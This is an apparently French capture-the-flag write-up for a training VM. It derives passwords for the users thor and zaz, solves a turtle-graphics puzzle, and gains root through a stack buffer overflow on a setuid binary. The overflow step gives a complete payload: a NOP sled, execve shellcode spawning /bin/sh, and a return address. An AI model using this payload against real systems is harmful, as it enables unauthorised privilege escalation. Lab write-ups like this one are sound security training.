 <img src="./ress/cantargue.jpg" width="200" height="200"/>

## CONNECTION TO THOR

En concatenant les mots de passe précedent (sans espaces), nous obtenons le mot de passe:<br>
```Publicspeakingisveryeasy.126241207201b2149opekmq426315```<br>
Sur le forum, est dit d'inverser les lettres 'v' et 'w' qui sont les dernieres lettres de l'alphabet -2 et -3<br>
Ce qui donne le mot de passe final: <br>
```Publicspeakingisveryeasy.126241207201b2149opekmq426135```<br>
<img src="./ress/wat.jpg" width="200" height="200"/>

## CONNECTION TO ZAZ

Dans la home de thor se trouve un fichier "turtle".<br>
Ce fichier peut être séparé en 5 parties selon les lignes vides.<br>
Ces correspondent correspondent aux instructions d'un programme turtle reproduit dans resolve_turtle.py.<br>
En éxécutant chaque série d'instructions, on obtient le mot de passe `SLASH`. Qui ne fonctionne pas.<br>
En revanche le md5 de "SLASH" fonctionne: `646da671ca01bb5d84dbb5fb2238dc8e`.

## SESSION DE ZAZ

Dans la session de zaz se trouve un exécutable root `exploit_me`.
Il suffit de faire une attaque par buffer overflow.<br>
`./exploit_me $(python -c 'print "\x90" * 80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "\x90\xf8\xff\xbf" * 10')`

# WE ARE ROOT

```
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```
![ROOT](./ress/root.gif)
